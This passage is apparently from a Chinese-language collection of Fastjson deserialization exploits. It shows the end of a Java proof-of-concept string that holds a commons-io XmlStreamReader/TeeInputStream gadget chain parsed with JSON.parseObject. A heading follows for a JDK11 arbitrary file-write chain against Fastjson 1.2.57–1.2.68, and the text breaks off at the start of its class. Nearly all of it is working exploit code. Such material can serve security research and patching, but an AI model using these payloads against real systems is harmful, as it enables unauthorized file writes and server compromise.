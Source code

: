 ```java
        "    \"trigger\":{\n" +
        "      \"@type\":\"java.lang.AutoCloseable\",\n" +
        "      \"@type\":\"org.apache.commons.io.input.XmlStreamReader\",\n" +
        "      \"inputStream\":{\n" +
        "        \"@type\":\"org.apache.commons.io.input.TeeInputStream\",\n" +
        "        \"input\":{\n" +
        "          \"$ref\":\"$.input\"\n" +
        "        },\n" +
        "        \"branch\":{\n" +
        "          \"$ref\":\"$.branch\"\n" +
        "        },\n" +
        "        \"closeBranch\": true\n" +
        "      },\n" +
        "      \"httpContentType\":\"text/xml\",\n" +
        "      \"lenient\":false,\n" +
        "      \"defaultEncoding\":\"UTF-8\"\n" +
        "    },\n" +
        "    \"trigger2\":{\n" +
        "      \"@type\":\"java.lang.AutoCloseable\",\n" +
        "      \"@type\":\"org.apache.commons.io.input.XmlStreamReader\",\n" +
        "      \"inputStream\":{\n" +
        "        \"@type\":\"org.apache.commons.io.input.TeeInputStream\",\n" +
        "        \"input\":{\n" +
        "          \"$ref\":\"$.input\"\n" +
        "        },\n" +
        "        \"branch\":{\n" +
        "          \"$ref\":\"$.branch\"\n" +
        "        },\n" +
        "        \"closeBranch\": true\n" +
        "      },\n" +
        "      \"httpContentType\":\"text/xml\",\n" +
        "      \"lenient\":false,\n" +
        "      \"defaultEncoding\":\"UTF-8\"\n" +
        "    },\n" +
        "    \"trigger3\":{\n" +
        "      \"@type\":\"java.lang.AutoCloseable\",\n" +
        "      \"@type\":\"org.apache.commons.io.input.XmlStreamReader\",\n" +
        "      \"inputStream\":{\n" +
        "        \"@type\":\"org.apache.commons.io.input.TeeInputStream\",\n" +
        "        \"input\":{\n" +
        "          \"$ref\":\"$.input\"\n" +
        "        },\n" +
        "        \"branch\":{\n" +
        "          \"$ref\":\"$.branch\"\n" +
        "        },\n" +
        "        \"closeBranch\": true\n" +
        "      },\n" +
        "      \"httpContentType\":\"text/xml\",\n" +
        "      \"lenient\":false,\n" +
        "      \"defaultEncoding\":\"UTF-8\"\n" +
        "    }\n" +
        "  }";
System.out.println(poc5);
JSON.parseObject(poc5);
```
### JDK11-无限制写文件
1.2.57<=FastJson<=1.2.68
主要针对JDK11版本，无其他环境依赖，且写入文件完整。
当确定JDK版本为11，可优先选择这条链。
```java
public class Fastjson_WriteFile_JDK11 {
    public static void main(String[] args) throws Exception {
```